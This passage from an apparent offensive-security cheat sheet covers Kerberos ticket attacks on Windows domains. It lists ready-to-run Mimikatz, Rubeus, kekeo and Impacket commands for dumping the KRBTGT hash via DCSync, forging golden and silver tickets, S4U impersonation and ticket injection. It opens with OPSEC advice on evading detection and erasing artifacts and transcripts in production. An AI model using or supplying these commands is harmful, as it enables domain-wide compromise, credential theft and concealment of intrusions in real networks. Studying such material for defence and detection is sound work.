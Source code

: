 ```cmd
```

### 🛠️ OPSEC, LAB vs PRODUCTION, CLEANUP
- Prefer MS‑signed enumeration first; space sensitive actions and add jitter in production.
- Keep ticket lifetimes realistic; avoid unusual group SIDs.
- Cleanup: `klist purge`, `Rubeus purge`; remove artifacts and transcripts.

---

## 🎯 ADVANCED COMMAND REFERENCE (20+ with concise purpose)

```cmd
:: Mimikatz (Golden/Silver/Verify)
mimikatz "lsadump::dcsync /user:krbtgt /domain:corp.local" exit               :: Extract KRBTGT hash
mimikatz "kerberos::golden /user:Administrator /domain:corp.local /sid:<SID> /krbtgt:<HASH> /ptt" exit  :: Golden ticket (PTT)
mimikatz "kerberos::golden /user:Administrator /domain:corp.local /sid:<SID> /target:FILE01 /service:CIFS /rc4:<HASH> /ptt" exit  :: Silver CIFS
mimikatz "kerberos::list" exit                                                :: List current tickets
mimikatz "kerberos::ptt c:\\temp\\ticket.kirbi" exit                       :: Inject saved ticket

:: Rubeus (Golden/S4U/TGT ops)
Rubeus.exe golden /rc4:<krbtgt_hash> /domain:corp.local /sid:<SID> /user:Administrator /ptt   :: Golden (PTT)
Rubeus.exe s4u /user:svc_web /rc4:<hash> /impersonateuser:admin /msdsspn:http/web01 /ptt      :: S4U chain
Rubeus.exe asktgt /user:svc /password:P@ssw0rd! /ptt                                         :: Ask TGT
Rubeus.exe renew /ticket:<base64TGT>                                                          :: Renew TGT
Rubeus.exe purge                                                                              :: Clear tickets
Rubeus.exe dump                                                                               :: Dump current tickets

:: Kekeo (TGT/TGS S4U)
kekeo.exe tgt::ask /user:svc /domain:corp.local /rc4:<hash>                                   :: TGT with RC4
kekeo.exe tgs::s4u /user:svc /service:cifs/filesrv.corp.local /impersonate:Administrator      :: S4U TGS

:: Impacket (Forge/Request)
ticketer.py -domain corp.local -aesKey <krbtgt_aes> Administrator -spn CIFS/filesrv.corp.local -save  :: Forge TGT
getTGT.py corp.local/Administrator:'P@ssw0rd!' -dc-ip 10.0.0.10                                  :: Get legit TGT
getST.py -spn CIFS/filesrv.corp.local corp.local/Administrator:'P@ssw0rd!' -dc-ip 10.0.0.10       :: Get service TGS

:: Verification
klist                                                                                         :: Ticket cache check
whoami /groups                                                                                :: Group SID context
```
